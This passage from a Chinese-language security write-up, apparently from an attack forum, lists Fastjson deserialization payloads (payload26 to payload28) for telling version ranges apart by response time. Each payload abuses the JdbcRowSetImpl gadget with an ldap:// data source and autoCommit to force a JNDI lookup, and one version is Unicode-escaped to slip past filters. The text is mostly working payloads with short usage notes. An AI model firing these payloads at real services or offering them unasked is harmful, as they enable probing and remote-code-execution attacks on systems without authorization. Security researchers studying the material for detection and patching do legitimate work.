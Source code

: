 #### 2.3.2.1 判断1.2.4&lt;=version&lt;=1.2.47

`payload26`（组合拳）：

```json
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://1.2.3.4/test111","autoCommit":true}}
```

```json
{"name":{"\u0040\u0074\u0079\u0070\u0065":"\u006a\u0061\u0076\u0061\u002e\u006c\u0061\u006e\u0067\u002e\u0043\u006c\u0061\u0073\u0073","\u0076\u0061\u006c":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c"},"x":{"\u0040\u0074\u0079\u0070\u0065":"\u0063\u006f\u006d\u002e\u0073\u0075\u006e\u002e\u0072\u006f\u0077\u0073\u0065\u0074\u002e\u004a\u0064\u0062\u0063\u0052\u006f\u0077\u0053\u0065\u0074\u0049\u006d\u0070\u006c","\u0064\u0061\u0074\u0061\u0053\u006f\u0075\u0072\u0063\u0065\u004e\u0061\u006d\u0065":"ldap://127.0.0.1/test111","autoCommit":true}}
```

先用第一个，再用第二个，如果第一个响应时间很长，而第二个较短，则说明版本：  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-87416b08da0cf7025cc67e9d87d62132966699b3.png)  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-caa9478760a5e531ef630088563b31f71215058d.png)

#### 2.3.2.2 判断1.1.16&lt;=version&lt;=1.2.24

`payload27`（组合拳）：

```json
{"username":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC","autoCommit":true}}
```

```json
{"username":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC","autoCommit":true}}
```

和`payload26`一样，如果下面的比上面的响应快说明版本处于`1.1.16`和`1.2.24`之间；`1.1.15`我本地测试的时候响应很快但是报错`Duplicate field name "matchColumn_asm_prefix__" with signature "[C" in class file Fastjson_ASM_JdbcRowSetImpl_1`。

#### 2.3.2.3 变种：判断1.1.16&lt;=version&lt;=1.2.11

如果对方用的是`JSON.parseObject`，那么`payload27`还有变种。  
`payload28`（组合拳）：

```json
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://1.2.3.4/POC", "autoCommit":true}}""}
```

```json
{"@type":"com.alibaba.fastjson.JSONObject",{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1/POC", "autoCommit":true}}""}
```
